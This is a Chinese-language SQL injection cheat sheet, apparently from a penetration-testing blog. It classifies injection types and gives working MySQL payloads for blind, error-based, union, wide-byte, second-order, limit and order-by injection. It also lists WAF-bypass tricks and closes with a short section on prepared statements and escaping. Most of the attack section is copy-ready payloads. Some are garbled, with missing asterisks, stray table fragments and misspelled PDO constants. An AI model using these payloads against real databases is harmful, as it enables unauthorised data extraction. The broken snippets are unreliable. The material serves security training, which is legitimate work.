




#渗透测试-漏洞之sql注入
按照注入点类型来分类
##数字型注入点
http://xxx.com/users.php?id=1 基于此种形式的注入
一类的 SQL 语句原型大概为 select from 表名 where id=1 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：select from 表名 where id=1 and 1=1
##字符型注入点
http://xxx.com/users.php?name=admin 这种形式
SQL 语句原型大概为 select * from 表名 where name=’admin’
可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：select * from 表名 where name=’admin’ and 1=1 ‘ 我们需要将这些烦人的引号给处理掉。
##搜索型注入点
此类注入点提交的 SQL 语句，其原形大致为：select * from 表名 where 字段 like ‘%关键字%’
我们在搜索框输入张%‘and’1’=‘1’ and%’=
查询SQL语句是这样的：SELECT* from sqltest where names like’%张%‘and’1’=‘1’and’%’=’%’，
按照数据提交的方式来分类
（1）GET 注入
http://xxx.com/news.php?id=1 , id 是注入点
（2）POST 注入
使用 POST 方式提交数据，注入点位置在 POST 数据部分，常发生在表单中。
（3）Cookie 注入
HTTP 请求的时候会带上客户端的 Cookie, 注入点存在 Cookie 当中的某个字段中。
（4）HTTP 头部注入
注入点在 HTTP 请求头部的某个字段中。比如存在 User-Agent 字段中。严格讲的话，Cookie 其实应该也是算头部注入的一种形式。因为在 HTTP 请求的时候，Cookie 是头部的一个字段。
按照执行效果来分类
###1）基于布尔的盲注
布尔型：页面只返回True和False两种类型页面。利用页面返回不同，逐个猜解数据
‘and (length(database()))>10 –+
1.基本实现
ascii(substr(database(),1,1))>100
2.盲注获取表
select table_name from information_schema.tables where table_schema=database() limit 0,1
3.盲注列名
select column_name from information_schema.columns where table_name=’users’ limit 1,1
4.盲注具体信息
select username from users limit 2,1
###（2）基于时间的盲注
即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
and (if(ascii(substr(database(),1,1))>100,sleep(10),sleep(4)) –+
sleep
benchmark
get_lock（）加锁机制
Select * from xxx where id = 1 and 1 and get_lock(‘column_name’,5);
即数据库的连接必须是持久连接，我们所利用的也是前一个连接对后一个连接的阻碍作用从而导致延时产生。因此，只有那些在php中使用mysql_pconnect()方法链接数据库的网站，才有可能使用这种方法
###（3）基于报错注入
即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
单引号
双引号
基于数字型注入
1、通过floor报错,注入语句如下:
and select 1 from (select count(),concat(version(),floor(rand(0)2))x from information_schema.tables group by x)a);
原理
rand()函数在查询的时候会执行一次,插入的时候还会执行一次
floor(rand(0)*2) 前六位是011011. group by a先建立一个空表,用于分组
此时插入因为重复出现同一个key,就会出现报错 重复出现key
当我们使用这个数列的时候会造成主键重复，抛出错误。

2、通过ExtractValue报错,注入语句如下:
mysql版本号大于5.1.5
and extractvalue(1, concat(0x7e, (select table_name from information_schema.tables limit 1)));
原理：
extractvalue()接收两个参数，第一个XML文档，第二个xpath语句。xpath语句格式错误返回数据
因为XPATH语法报错的是那些特殊字符,遇到特殊字符就会报错.
所以0x7e,ASCII码是~ 就会从头开始报错.
3、通过UpdateXml报错,注入语句如下:
mysql版本号大于5.1.5
and 1=(updatexml(1,concat(0x3a,(select user())),1))
原理：
updatexml(xml,xpath,new_xml),此函数使用nex_xml根据xpath来替换xml字符串中特定的值.和上面的道理是相同的,都是通过xpath语法
4、通过NAME_CONST报错,注入语句如下:
只适用于mysql低版本
and exists(select from (select from(select name_const(@@version,0))a join (select name_const(@@version,0))b)c)
报错原因就是因为两列列名相同,外面选择时候报错,说重复列.
5、通过join报错,注入语句如下:
select from(select from mysql.user a join mysql.user b)c;
6、通过exp报错,注入语句如下:
适用版本：mysql5.5.44-5.5.47.
and exp(~(select * from (select user () ) a) );
原理：
当传递一个大于709的值时，函数exp()就会引起一个溢出错误。
将0按位取反就会返回“18446744073709551615”，再加上函数成功执行后返回0的缘故，我们将成功执行的函数取反就会得到最大的无符号BIGINT值
利用：
这个查询可以从当前的上下文中dump出所有的tables与columns。我们也可以dump出所有的数据库，但由于我们是通过一个错误进行提取，它会返回很少的结果。
exp(~(selectfrom(select(concat(@:=0,(select count()frominformation_schema.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))
http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(selectfrom(select(concat(@:=0,(select count()frominformation_schema.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))– -&Submit=Submit#
参数不规范报错：
适用版本：mysql版本号在5.5.44 - 5.7.17
geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错。
7、通过GeometryCollection()报错,注入语句如下:
and GeometryCollection(()select *from(select user () )a)b );
8、通过polygon ()报错,注入语句如下:
and polygon (()select * from(select user ())a)b );
9、通过multipoint ()报错,注入语句如下:
and multipoint (()select * from(select user() )a)b );
10、通过multlinestring ()报错,注入语句如下:
and multlinestring (()select * from(selectuser () )a)b );
11、通过multpolygon ()报错,注入语句如下:
and multpolygon (()select * from(selectuser () )a)b );
12、通过linestring ()报错,注入语句如下:
and linestring (()select * from(select user() )a)b );
13、
最大整型数据运算溢出：
适用版本：mysql版本号大于5.5.5
###（4）联合查询注入
可以使用union的情况下的注入。
1 1’ order by 3 – - 错误
2 1’ order by 1 – - 正确
3 1’ order by 2 – - 正确 （判断有几列，在这里有两列）
4
5
6 1’ union select 1,2 – - （查看回显位）
7
8 1’ union select user(),database() – - （查看库名）
9 1’ union select table_name,2 from information_schema.tables where table_schema=database() – - （查看表名）
10 1’ union select column_name,2 from information_schema.columns where table_name=’users’ – - （查看列名）
11 1’ union select group_concat(column_name),2 from information_schema.columns where table_name=’users’ – - （用group_concat 能让查看的数据出现在一行 ）
###（5）堆查询注入
可以同时执行多条语句的执行时的注入。
oracle不能使用堆叠注入，可以从图中看到，当有两条语句在同一行时，直接报错。无效字符。后面的就不往下继续尝试了。
###（6）宽字节注入
GB2312、GBK、GB18030、BIG5
防御：将 ‘ 转换为 \’
绕过：将 \ 消灭
%df
白盒测试：
1、查看mysql编码是否为GBK
2、是否使用preg_replace把单引号替换成 \’
3、是否使用addslashes进行转义
4、是否使用mysql_real_escape_string进行转义
防御
1、使用UTF-8，避免宽字节
不仅GBK、韩文、日文等等都是宽字节，都有可能存在诸如漏洞
2、mysql_real_escape_string, mysql_set_charset(‘gbk’,$conn);
3、可以设置参数， character_set_client=binary
###二次编码注入
在url中可能出现一些特殊字符，如= & ； +
为了避免冲突，需要转移

二次编码注入是由于两次编码转义冲突导致出现的注入点
注入方法：在注入点后键入%2527，然后按照正常的注入流程开始注入
代码审计
1、是否使用urldecode函数
2、urldecode函数是否在转义方法之后
###二次注入
第一步， 插入恶意数据
保留了原来的数据，插入到数据库
第二步，引用恶意数据
在将数据存入到了数据库中之后，开发者未经验证，直接引用

修改密码处
代码审计
仅对特殊字符进行了转义，判断输入两次密码是否一致，然后将用户键入，将数据插入至数据库。
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")"
修改密码时：
$username= $_SESSION[“username”];//直接取出了数据库的数据
$sql = “UPDATE users SET PASSWORD=’$pass’ where username=’$username’ and password=’$curr_pass’ “;//对该用户的密码进行更新
防御
（1）对外部提交数据谨慎
（2）从数据库取数据时，不能轻易相信查询出的数据，要做到同样的转义或是甄别
###代码审计
普通注入
在代码审计中，我们只需要关注一些关键字，例如select from、mysql_connect、mysql_query、update、delete、insert等即可
编码注入
宽字节注入、URLdecode注入等
当PHP连接MySQL的时候，设置了“set_character_set_client=gkb”时，往往就会产生宽字节注入。
2.宽字节注入除了上述方法外，有时为了避免乱码，程序员使用iconv()函数将GBK编码转换为utf-8编码，例如：
mysql_query(“set names UTF-8”) ;
$bar =iconv(“GBK”,”UTF-8”, addslashes($_GET[‘’bar])) ;
url二次注入
<?php
$a=addslashes($_GET[‘c’]);
$b=urldecode($a);
echo ‘$a=’.$a;
echo ‘$b=’.$b;
?>
所以在代码审计中挖掘urldecode注入时，只需要搜过两个关键函数即可：
urldecode
rawurldecode
insert，update，delete注入
insert into member(username,pw,sex,phonenum,email,address) values(‘wangwu’or updatexml(1,concat(0x7e,(users())),0) or’’,md5(‘a’),’a’,’aa’,’a’,’a’)
‘or updatexml(1,concat(0x7e,(命令)),0) or’
limit注入
在Limit后面 可以用 procedure analyse()这个子查询
而且只能用extractvalue 和 benchmark 函数进行延时
procedure analyse(updatexml(rand(),concat(0x3a,benchmark(10000000,sha1(1)))),1)
orderby 注入
http://192.168.239.2:81/?order=rand(1=1)
http://192.168.239.2:81/?order=rand(1=2)
可以观测到排序的结果不一样
利用报错
只能一位一位猜解
SUBSTR,SUBSTRING,MID
以及left和right可以精准分割出每一位子串
=,like,regexp等。这里要注意like是不区分大小写
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误
##绕过
###0x01 大小写绕过
UniOn SeleCt
###0x02 双写绕过
ununionion seselectlect
###0x03 内联注释绕过
内联注释就是把一些特有的仅在MYSQL上的语句放在 /!…/ 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。
and /!select/ 1,2
###0x04 编码绕过
16进制绕过：
select from users where username = test1;
select from users where username = 0x7465737431;
对关键字进行两次url全编码：
1+and+1=2
1+%25%36%31%25%36%65%25%36%34+1=2
unicode编码对部分符号的绕过：
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
###0x05 <>绕过
某些网站过滤了“<>”符号才行：
unio<>n sel<>ect
###0x06注释符绕过
uni//on se//lect
###0x07对空格的绕过
/**/
%20
%09
%a0
%0a
###0x08 对or/and的绕过
and = &&
or = ||
###0x09 对等号=的绕过
不加通配符的like rlike
regexp:MySQL中使用 REGEXP 操作符来进行正则表达式
<> 等价于 != 前面再加一个!结果就是等号了
1 |
|
0x10 对单引号的绕过
宽字符
过滤单引号时
%bf%27 %df%27 %aa%27
使用十六进制
‘users’=>0x7573657273
0x11 对逗号的绕过1
2select substr("string",1,3);
等价于 select substr("string" from 1 for 3);
1 | union select 1,2,3 |
1 | 适用于limit中的逗号被过滤的情况 |
0x12 过滤函数绕过
1 | and sleep(1) |
1 | select group_concat("str1","str2"); |
ascii()–>hex()、bin()
user() –> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。
##防御
###1、黑名单过滤
将关键字select等只使用replace()函数置换为空
###2、PDO预编译
PDO prepare预编译类似于Java中的preparestatement，采用预编译的形式处理数据库查询。
1 | <?php |
以上代码虽然采用了PDO进行预编译，但是再PHP5.3.6之前仍然会存在宽字节注入漏洞，因为这样查询是PHP本地模拟prepare，然后再把完整的sql语句发送给数据库，php与MySQL编码不一致导致宽字节注入漏洞的产生，所以我们需要禁止本地模拟prepare，在上述代码中加入一行即可：
$dsn -> setAttribute(PDO::ATTER_EMULATE_PREPARES, flase);
原理
当调用 prepare() 时，查询语句已经发送给了数据库服务器，此时只有占位符 ? 发送过去，没有用户提交的数据；当调用到 execute()时，用户提交过来的值才会传送给数据库，他们是分开传送的，两者独立的，SQL攻击者没有一点机会
失败案例
1、你不能让占位符 ? 代替一组值，如：
SELECT * FROM blog WHERE userid IN ( ? );
2、你不能让占位符代替数据表名或列名，如：
SELECT * FROM blog ORDER BY ?;
3、你不能让占位符 ? 代替任何其他SQL语法，如：
SELECT EXTRACT( ? FROM datetime_column) AS variable_datetime_element FROM blog;
：
###3、魔术引号
magic_quotes_gpc开启后会在GET、POST、COOKIE中的单引号、双引号、反斜杠、空字符的前面加上反斜杠（ \ ），但在PHP5中对$_SERVER变量停止了过滤，导致client-ip等容易被利用
magic_qutoes_runtime开启后，与GPC的过滤方案一致，区别是它对数据库和数据文件进行过滤，而非GET、POST、COOKIE值。
在PHP5.4中，魔术引号被取消
###4、过滤函数
1.addslashes
2.mysql_escape_string
在PHP4.0.3以上版本中引入了mysql_escape_string函数和mysql_real_escape_string函数
##存在的地方
登录页面、查找页面或添加页面等用户可以查找或修改数据的地方、
##orderby 注入
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误
##limit注入
SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
此方法仅适用于5.0.0<mysql<5.6.6的版本